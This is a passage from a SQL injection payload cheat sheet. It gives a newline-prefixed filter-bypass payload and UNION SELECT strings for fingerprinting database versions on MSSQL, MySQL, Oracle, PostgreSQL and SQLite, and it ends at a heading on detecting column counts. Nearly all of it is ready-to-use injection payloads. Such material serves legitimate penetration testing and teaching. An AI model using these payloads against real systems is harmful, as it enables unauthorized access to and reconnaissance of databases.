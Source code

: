 ### New Line (’%0A’)

By prepending the new line (URL encoded to ‘%0A’), subsequent syntax may circumvent the filtering.

```html
/?id=%0A' OR 1=1-- -
```

<br />

## Version Detection

### MSSQL

```html
' UNION SELECT @@version--
' UNION SELECT NULL,@@version--
```

### MySQL

```html
' UNION SELECT @@version-- -
' UNION SELECT @@version#

' UNION SELECT NULL,@@version-- -
' UNION SELECT NULL,@@version#
```

### Oracle

```html
' UNION SELECT 'a' FROM dual--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT * FROM v$version--
' UNION SELECT BANNER,NULL FROM v$version--
```

### PostgreSQL

```html
' UNION SELECT version()--
' UNION SELECT NULL,version()--
```

### SQLite

```html
' UNION SELECT sqlite_version()--
' UNION SELECT sqlite_version(),NULL--
```

<br />

## Detect Number of Columns
